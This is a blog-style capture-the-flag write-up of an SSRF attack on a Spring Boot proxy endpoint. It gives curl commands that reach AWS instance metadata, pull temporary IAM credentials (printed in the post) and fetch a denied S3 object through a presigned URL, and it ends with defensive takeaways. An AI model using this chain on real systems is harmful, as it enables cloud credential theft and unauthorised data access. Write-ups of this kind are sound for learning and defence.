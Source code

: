 ```yaml
---
layout: post
title: "Wiz CTF June 2025: SSRF & AWS Credential Escalation"
date: 2025-07-10
categories: [ctf, security]
excerpt: "Exploiting Server-Side Request Forgery (SSRF) through Spring Boot Actuator to access AWS services, bypass data perimeter controls, and extract protected files using presigned URLs."
---
```


## Challenge Overview

In this Wiz CTF challenge, I exploited a Server-Side Request Forgery (SSRF) vulnerability via the `/proxy?url=` endpoint in a Spring Boot Actuator application. This allowed me to make internal requests to AWS services, access the Instance Metadata Service (IMDSv2), and ultimately bypass a data perimeter to retrieve a protected flag.

## Vulnerability Exploited

**Server-Side Request Forgery (SSRF)** combined with:
- AWS Instance Metadata Service (IMDSv2) access
- Misconfigured S3 bucket policies
- Presigned URL generation

## Attack Steps

### 1. Endpoint Discovery

First, I mapped the available endpoints using Spring Boot Actuator:

```bash
curl -u ctf:88sPVWyC2P3p https://challenge01.cloud-champions.com/actuator/mappings
```

This revealed the vulnerable `/proxy` endpoint:
```json
"patterns": [ "/proxy" ],
"params": [ { "name": "url" } ],
"handler": "challenge.Application#proxy(String)"
```

### 2. AWS Metadata Access

Next, I exploited the SSRF to access the AWS Instance Metadata Service:

```bash
# Get metadata token
curl -u ctf:88sPVWyC2P3p \
  -X PUT \
  "https://challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"
```

```bash
# Retrieve IAM role name
curl -u ctf:88sPVWyC2P3p \
  "https://challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/" \
  -H "X-aws-ec2-metadata-token: AQAEABCrJRHxImsxH1JVhUFrWPUuZSFBVBq6ShBgOv8IpfjYeeNY1g=="
```

Result: `challenge01-5592368`

### 3. AWS Credentials Extraction

Using the role name, I extracted temporary AWS credentials:

```bash
curl -u ctf:88sPVWyC2P3p \
  "https://challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/challenge01-5592368" \
  -H "X-aws-ec2-metadata-token: AQAEABCrJRHxImsxH1JVhUFrWPUuZSFBVBq6ShBgOv8IpfjYeeNY1g=="
```

This returned temporary AWS credentials including:
- Access Key ID: `ASIARK7LBOHXDFXXHGYE`
- Secret Access Key: `HtRUNKtijoKBAcec9fi0d5JGD8OG2fnjLG4lYSnp`
- Session Token: `[truncated for brevity]`

### 4. S3 Bucket Exploration

With the credentials, I explored the S3 bucket:

```bash
aws s3 ls s3://challenge01-470f711 --profile temp-creds
# Result: PRE private/ and hello.txt

aws s3 ls s3://challenge01-470f711/private/ --profile temp-creds
# Result: flag.txt
```

### 5. Bypass Attempt #1: Direct Access (Failed)

Direct access to the flag was blocked by bucket policy:

```bash
aws s3 cp s3://challenge01-470f711/private/flag.txt ./ --profile temp-creds
# Result: fatal error: An error occurred (403) when calling the HeadObject operation: Forbidden
```

### 6. Bypass Technique: Presigned URL + SSRF

I generated a presigned URL for the protected file:

```bash
aws s3 presign s3://challenge01-470f711/private/flag.txt --profile temp-creds
```

Then used the SSRF vulnerability to access the presigned URL through the vulnerable proxy endpoint:

```bash
curl -u ctf:88sPVWyC2P3p \
  "https://challenge01.cloud-champions.com/proxy?url=https%3A%2F%2Fchallenge01-470f711.s3.amazonaws.com%2Fprivate%2Fflag.txt%3F[URL-encoded-presigned-parameters]"
```

## Key Takeaways

This challenge demonstrated a sophisticated attack chain combining:

1. **SSRF Discovery**: Finding the vulnerable proxy endpoint through actuator mappings
2. **Cloud Metadata Abuse**: Leveraging IMDSv2 to extract AWS credentials
3. **Policy Bypass**: Using presigned URLs to circumvent bucket-level deny policies
4. **Request Routing**: Using the original SSRF vulnerability to make the presigned request appear to come from the authorized backend server

The attack succeeded because:
- The proxy endpoint had no URL filtering
- IMDSv2 was accessible from the application
- The S3 bucket policy only denied direct external access, not requests from the backend server
- Presigned URLs were generated with the backend's legitimate credentials

This highlights the importance of:
- Strict input validation on proxy endpoints
- Proper IMDSv2 security configurations
- Comprehensive S3 bucket policies that account for different attack vectors
- Network segmentation and least privilege access controls